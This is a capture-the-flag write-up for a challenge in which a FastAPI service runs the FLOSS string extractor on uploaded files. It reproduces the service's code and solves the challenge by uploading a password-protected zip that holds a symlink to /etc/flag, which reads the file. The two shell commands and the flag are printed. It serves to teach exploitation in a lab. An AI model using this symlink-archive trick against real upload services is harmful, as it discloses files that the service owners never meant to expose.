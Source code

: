 # 🎓Throw your malware here!
> FLOSS is the superior "strings", so I've decided to run it as a SAAS! Enough with the obfuscated code that the pigeon keeps throwing at me!

> In fact, I decided to handle all types of files, even non-PE files and password-protected zip files!

> Flag is located at `/etc/flag`

## About the Challenge
We were given a source code called `app.py` (You can download the file [here](dist_throw-your-malware-here_0140c3bcedfeee2909f426086fbab6fa4c777229.zip)) and here is the content of the file

```python
from typing import Optional
import zipfile
import random
import shutil
import string
import subprocess
from pathlib import Path

import pefile
from fastapi import FastAPI, HTTPException, UploadFile
from fastapi.responses import JSONResponse


FILE_CACHE = Path("/app/cache")
FLOSS_PATH = Path("/usr/local/bin/floss")

app = FastAPI()


def get_random_string(length: int = 16) -> str:
    # choose from all lowercase letter
    letters = string.ascii_lowercase
    return "".join(random.choice(letters) for _ in range(length))


@app.on_event("startup")
def startup():
    # Ensure caches exist
    if not FILE_CACHE.is_dir():
        FILE_CACHE.mkdir()


def run_floss(target: Path) -> str:
    args = [str(target), "--json"]
    try:
        pefile.PE(name=str(target))
    except pefile.PEFormatError:
        args.extend(("--only", "static"))
    output = subprocess.check_output((FLOSS_PATH, *args))
    return output.decode()


@app.post("/floss")
def floss_endpoint(sample: UploadFile, password: Optional[str]) -> JSONResponse:
    random_path = get_random_string()
    while (target_path := FILE_CACHE / random_path).exists():
        random_path = get_random_string()
    with target_path.open("wb+") as f:
        shutil.copyfileobj(sample.file, f)
    is_zipfile = zipfile.is_zipfile(target_path)
    if is_zipfile:
        with zipfile.ZipFile(target_path) as f:
            # No zip bombs!
            file_size_sum = sum(data.file_size for data in f.filelist)
            compressed_size_sum = sum(data.compress_size for data in f.filelist)
            if (file_size_sum / compressed_size_sum > 10):
                raise HTTPException(413, "Zip Bomb Detected")

            zipobjects = f.infolist()
            if any(zipobject.file_size > 50000 for zipobject in zipobjects):
                raise HTTPException(418, "I'm a teapot!")
            files = f.namelist()
        args = ["unzip"]
        if password:
            args.extend(("-P", password))
        args.extend((str(target_path), "-d", f"{FILE_CACHE / random_path}-zip"))
        a = subprocess.run(args)
        if a.returncode != 0:
            raise HTTPException(422, "Invalid password!")
        targets = [FILE_CACHE / f"{random_path}-zip" / file for file in files]
    else:
        targets = [target_path]
    results = [run_floss(target) for target in targets]
    return JSONResponse(
        {target.name: result for target, result in zip(targets, results)}
        if is_zipfile
        else results[0]
    )
```

The program accepts a file upload via the /floss endpoint and analyzes the uploaded file using FLOSS. It first saves the uploaded file to a cache directory. If the uploaded file is a ZIP archive, it checks for zip bomb and teapot conditions to prevent malicious or large files from being processed.

If the file is a ZIP archive, it extracts its contents to a separate directory in the cache. Otherwise, it directly analyzes the uploaded file. For each file (or extracted file in the case of a ZIP archive), it runs the run_floss() function, which invokes FLOSS to perform the analysis. The output is returned as a JSON response.

## How to Solve?
To solve this chall, im using this [website](https://infosecwriteups.com/zippy-challenge-writeup-cyberhack-ctf-80eb1d422249) as a reference. We can read the content of `/etc/flag` by using `zipslip` vulnerability. Here is the command I used

```
ln -s ../../../etc/flag awikwok.link
zip -P password --symlink awikwok.zip awikwok.link
```

And then upload to the website to obtain the flag

![flag](images/flag.png)

```
SEE{i_just_wanted_to_be_kind_and_run_a_floss_web_api_man}
```